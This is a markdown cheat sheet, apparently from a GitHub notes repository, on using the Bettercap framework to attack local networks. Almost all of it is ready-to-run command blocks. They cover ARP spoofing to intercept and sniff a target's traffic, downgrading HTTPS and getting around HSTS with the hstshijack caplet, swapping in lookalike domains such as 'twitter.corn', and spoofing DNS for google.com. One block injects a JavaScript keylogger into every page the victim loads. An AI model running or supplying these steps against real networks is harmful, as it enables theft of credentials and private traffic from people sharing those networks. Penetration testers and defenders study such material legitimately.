 # Bettercap

Framework to run network attacks, can be used to:

* ARP Spoofing
* MITM Sniff data
* Bypass HTTPS / HSTS
* Redirect domain requests (DNS Spoofing)
* Code Injection
* More!

```
bettercap iface [INTERFACE]
```

## MITM Example attack

```
bettercap iface [INTERFACE]
net.probe on
net.recon.on

// Start MITM attack with APR Spoofing
set arp.spoof.fullduplex true
set arp.spoof.targets <TARGET_IP>
arp.spoof on

// Analyse traffic
net.sniff on
```

## Caplets (Custom scripts)

You can save your bettercap actions in scripts called "_Caplets_" (`.cap` files).

```
bettercap -iface [INTERFACE] -caplet [CAPLET.CAP]
```

### Installed caplets

```
caplets.show
```

### HTTPS Bypass: hstshijack caplet

Caplet to _bypass HTTPS_.

Add option before `net.sniff on`:

```
// Sniff all data, including local, because with this caplet
// downgraded HTTPS data will be sent as if it is coming from
// our machine.
set net.sniff.local true
```

And then run from bettercap cli:

```
hstshijack/hstshijack
```

### HSTS Bypass: hstshijack caplet

if we want to replace urls, we can add the following to the `hstshijack.cap`:

```
set hstshijack.targets      twitter.com, *.twitter.com, etc...
set hstshijack.replacements twitter.corn, *.twiter.com, etc...

set dns.spoof.domains       twitter.corn, *.twiter.com, etc...
```

## DNS Spoofing

You can redirect a request for a server, to another server (such as your own Apache web server). By default, if no `host` is defined, it will map to your IP address.

```
bettercap -iface [INTERFACE] -capet /root/spoof.cap
set dns.spoof.all true
set dns.spoof.domains google.com, *.google.com // etc
dns.spoof on
```

## Code Injection (Javascript): hstshijack

We will use _hstshijack_ caplet.

Add the option:

```
set hstshijack.payloads     <DOMAINS>:<PAYLOAD_LOCATION>,etc...
set hstshijack.payloads     *:/usr/share/payloads/keylogger.js
```

### Output sniff data

You can also save sniffing output for a later analysis adding to your `.cap` configuration file:

```
set net.sniff.output <NAME.cap>
```
